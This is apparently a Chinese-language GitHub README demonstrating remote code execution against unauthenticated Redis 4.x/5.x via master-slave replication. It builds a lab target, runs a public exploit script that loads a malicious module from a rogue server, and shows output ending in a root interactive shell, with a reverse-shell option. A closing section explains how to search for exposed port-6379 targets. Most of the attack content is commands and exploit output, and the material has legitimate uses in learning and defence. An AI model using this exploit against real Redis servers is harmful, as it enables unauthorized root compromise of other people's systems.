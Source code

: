 # Redis未授权通过主从复制GETSHELL


## 0x01 环境搭建

 靶机kali，ip地址192.168.1.16，安装redis服务命令。  

 wget http://download.redis.io/releases/redis-5.0.0.tar.gz  
 tar xzf redis-5.0.0.tar.gz  
 cd redis-5.0.0  
 make  


 编译好然后修改redis.conf文件，把127.0.0.1 改成 0.0.0.0  启动服务。  


 ./redis-server /root/redis-5.0.0/redis.conf  

 ![1](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/1.jpg)

## 0x02 漏洞利用

  攻击机Ubuntu，ip地址192.168.1.107，下载exp脚本，然后输入参数开始。

  git close https://github.com/Ridter/redis-rce  
  cd redis-rce  
  greekn@greekn:~/redis-rce$ python3 redis-rce.py -r 192.168.1.16 -L 192.168.1.107 -f exp_lin.so  

  █▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄         █▄▄▄▄ ▄█▄    ▄███▄       
  █  ▄▀ █▀   ▀  █  █  ██   █     ▀▄       █  ▄▀ █▀ ▀▄  █▀   ▀  
  █▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄         █▀▀▌  █   ▀  ██▄▄        
  █  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀          █  █  █▄  ▄▀ █▄   ▄▀  
    █   ▀███▀   ███▀   ▐                    █   ▀███▀  ▀███▀        
  ▀                                       ▀                       
  
 [*] Connecting to  192.168.1.16:6379...  
 [*] Sending SLAVEOF command to server  
 [+] Accepted connection from 192.168.1.16:6379  
 [*] Setting filename  
 [+] Accepted connection from 192.168.1.16:6379  
 [*] Start listening on 192.168.1.107:21000  
 [*] Tring to run payload  
 [+] Accepted connection from 192.168.1.16:38875  
 [*] Closing rogue server...  

 [+] What do u want ? [i]nteractive shell or [r]everse shell: i  
 [+] Interactive shell open , use "exit" to exit...  
 $ whoami  
 root  
 $   

 ![2](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/2.jpg)

## 0x03 脆弱目标寻找  

 漏洞关键词redis 默认端口6379，影响版本 4.x/5.x  

 ![3](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/3.jpg)

 参考链接 https://paper.seebug.org/975/  

 ![4](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/4.jpg)

